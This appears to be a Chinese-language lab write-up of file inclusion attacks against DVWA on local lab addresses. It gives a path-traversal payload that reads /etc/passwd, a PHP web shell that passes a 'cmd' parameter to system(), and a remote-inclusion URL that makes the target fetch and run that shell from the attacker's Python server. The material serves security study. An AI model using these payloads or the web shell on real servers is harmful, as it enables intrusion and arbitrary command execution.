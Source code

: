 ## 一、文件包含漏洞(File Inclusion)
### 1.1 攻击逻辑
- 利用服务器“偷懒”，有些网页为了方便，直接根据URL里的参数去读取服务器上某个文件并显示出来，可以读取敏感文件
### 1.2 文件包含分类
- 本地文件包含(LFI)：读取服务器本地的敏感文件
- 远程文件包含(RFL)：让服务器加载并执行一个放在别处(如Kali攻击机上)的恶意脚本。一旦成功，效果和上传Web Shell一样，直接控制服务器
## 二、本地文件包含(LFI)信息窃取
- DVWA中切换到File Inclusion菜单
- 构造LFI Payload：
   - 目标是读取`/etc/passwd`文件，这里存放Linux系统用户列表的文件
   - 需要用`../`字符串来跳出当前目录，一层层返回到根目录
   - 最终Payload：`../../../../../../../../etc/passwd`
   - 最终URL：`http://192.168.174.130/dvwa/vulnerabilities/fi/?page=../../../../../../../../etc/passwd`
   - 结果：在网页看到`/etc/passwd`文件的全部内容，此文件是服务器的“用户登记表”。
   - 看第一行`root:x:0:0:root:/root:/bin/bash`，用户名是`root`；密码占位符是`x`：真密码被加密后存在更安全的文件里；用户ID(UID)是`0`:0是超级管理员的专属号码；用户组ID(GID)是`0`；用户描述是`root`；家目录是`/root`，root用户登录后，默认待在/root这个文件夹里；登陆后用的程序`/bin/bash`，root用户登录后，系统会启动/bin/bash这个程序让他输入命令
<img width="1367" height="363" alt="image" src="https://github.com/user-attachments/assets/f2963ff8-7268-4e5f-978b-6b96b9dc6825" />

## 三、远程文件包含(RFI)获取控制权
-  准备武器(Web Shell)：`shell.php`
```
<?php
   if (isset($_REQUEST['cmd'])) {
      echo "<pre>";
      $cmd = ($_request['cmd']);
      system($cmd);
      echo "</pre>";
      die;
    }
?>
```
- 架设"军火库"(Web服务器)：
   - 为了让DVWA服务器能访问到`shell.php`，选哟在Kali上启动一个临时的Web服务器
   - 在Kali中，打开新终端，进入到`shell.php`所在的目录(桌面)，执行`python3 -m http.server 8000`，启动一个监听在`8000`端口的Web服务器
- 构造RFI Payload：
   - 让`page`参数去加载一个远程地址，即刚刚架设号的Web服务器上的`shell.php`
   - 最终Payload：`http://192.168.174.129:8000/shell.php`
- 最终攻击:
   - 浏览器地址栏`page=`后门的内容，替换成RFI Payload，最终URL：`http://192.168.174.130/dvwa/vulnerabilities/fi/?page=http://192.168.174.129:8000/shell.php`
   - 观察Pyhton服务器终端，会看到访问日志，证明DVWA服务器下载了`shell.php`
- 验证控制权：
   - 在URL后加上`&cmd=`参数来执行命令
   - `http://192.168.174.130/dvwa/vulnerabilities/fi/?page=http://192.168.174.129:8000/shell.php&cmd=whoami`，网页显示`www-data`，证明通过RFI漏洞，成功在服务器上执行了任意命令。
## 四、总结
- `shell.php`功能：接收cmd参数，然后用system()函数去执行它
